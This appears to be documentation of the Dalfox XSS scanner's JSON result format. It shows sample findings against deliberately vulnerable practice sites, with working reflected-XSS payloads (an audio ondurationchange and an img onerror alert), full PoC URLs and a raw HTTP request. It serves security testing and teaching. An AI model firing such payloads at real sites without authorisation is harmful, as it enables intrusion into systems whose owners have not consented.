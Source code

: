 ```yaml
---
title: Result JSON Format
permalink: /docs/json/
---
```


## Scan Result
```json
{
 "logs": null,
 "pocs": [
  {
   "type": "V",
   "inject_type": "inHTML-none(1)-URL",
   "poc_type": "plain",
   "method": "GET",
   "data": "https://xss-game.appspot.com/level1/frame?query=%3Caudio+controls+ondurationchange%3Dalert%281%29+id%3Ddalfox%3E%3Csource+src%3D1.mp3+type%3Daudio%2Fmpeg%3E%3C%2Faudio%3E",
   "param": "query",
   "payload": "\u003caudio controls ondurationchange=alert(1) id=dalfox\u003e\u003csource src=1.mp3 type=audio/mpeg\u003e\u003c/audio\u003e",
   "evidence": "13 line:  s were found for \u003cb\u003e\u003caudio controls ondurationchange=alert(1) id=dalfox\u003e\u003csource ",
   "cwe": "CWE-79",
   "severity": "High",
   "message_id": 223,
   "message_str": "Triggered XSS Payload (found DOM Object): query=\u003caudio controls ondurationchange=alert(1) id=dalfox\u003e\u003csource src=1.mp3 type=audio/mpeg\u003e\u003c/audio\u003e",
   "raw_request": "GET /level1/frame?query=%3Caudio+controls+ondurationchange%3Dalert%281%29+id%3Ddalfox%3E%3Csource+src%3D1.mp3+type%3Daudio%2Fmpeg%3E%3C%2Faudio%3E HTTP/1.1\r\nHost: xss-game.appspot.com\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip\r\n\r\n"
  }
 ],
 "params": [
  {
   "Name": "query",
   "Type": "URL",
   "Reflected": true,
   "ReflectedPoint": "/inHTML-none(1)",
   "ReflectedCode": "13 line:  Sorry, no results were found for \u003cb\u003eDalFox\u003c/b\u003e. \u003ca href='?'\u003eTry again",
   "Chars": [
    "\\",
    ")",
    "|",
    "\"",
    "'",
    "-",
    "`",
    "\u003e",
    "$",
    "+",
    "]",
    "=",
    ";",
    ":",
    "[",
    "}",
    "{",
    ",",
    "(",
    ".",
    "\u003c"
   ]
  }
 ],
 "duration": 4841809667,
 "start_time": "2023-03-28T11:07:15.574531+09:00",
 "end_time": "2023-03-28T11:07:20.416285+09:00"
}
```

## PoC
```json
{
      "type":"Type of PoC (G/R/V)",
      "inject_type":"Injected Point",
      "poc_type":"plain/curl/httpie/etc...",
      "method":"HTTP Method",
      "data":"PoC URL",
      "param":"Parameter",
      "payload":"Attack Value",
      "evidence":"Evidence with response body",
      "cwe":"CWE ID",
      "severity": "Severity (Low/Medium/High)",
      "message_id": "Message ID",
      "message_str": "Message String (POC)",
      "raw_request": "Raw HTTP Request (require --output-request flag)",
      "raw_response": "Raw HTTP Response (require --output-response flag)"
   }
```

| Key         | Description                 | List                                                         |
| ----------- | --------------------------- | ------------------------------------------------------------ |
| type        | Type                        | - G (Grep)<br />- R (Reflected)<br />- V (Verified)          |
| inject_type | Injected point              | - inHTML-none (Injected in HTML area)<br />- inJS-none (Injected in Javascript area)<br />- inJS-double (Injected within `"` in Javascript area)<br />- inJS-single (Injected within `'` in Javascript area)<br />- inJS-backtick (Injected within backtic1k in Javascript area)<br />- inATTR-none (Injected within in Tag attribute area)<br />- inATTR-double (Injected within `"` in Tag attribute area)<br />- inATTR-single (Injected within `'` in Tag attribute area) |
| poc_type    | Type of poc code            | - plain (URL)<br />- curl (Curl command)<br />- httpie (HTTPie command) |
| method      | HTTP Method                 | - GET/POST/PUT/DELETE, etc...                                |
| data        | PoC (URL)                   | - PoC URL                                                    |
| param       | Parameter name              | - Weak parameter name                                        |
| payload     | Parameter value             | - Attack code in value                                       |
| evidence    | Evidence with response body | - Simple codeview of where it's injected in response body.   |
| cwe         | CWE ID                      | - Mapping CWE ID                                             |
| severity    | Severity                    | - Severity (Low/Medium/High)                                 |
| raw_request | Raw HTTP Request            | - Raw HTTP Request                                           |
| raw_response| Raw HTTP Response           | - Raw HTTP Response                                          |

```json
{
    "type": "V",
    "inject_type": "inHTML-URL",
    "poc_type": "plain",
    "method": "GET",
    "data": "http://testphp.vulnweb.com/listproducts.php?cat=%27%22%3E%3Cimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60+class%3Ddalfox%3E",
    "param": "cat",
    "payload": "'\"><img/src/onerror=.1|alert`` class=dalfox>",
    "evidence": "48 line:  syntax to use near ''\"><img/src/onerror=.1|alert`` class=dalfox>' at line 1",
    "cwe": "CWE-79",
    "severity": "High"
}
```
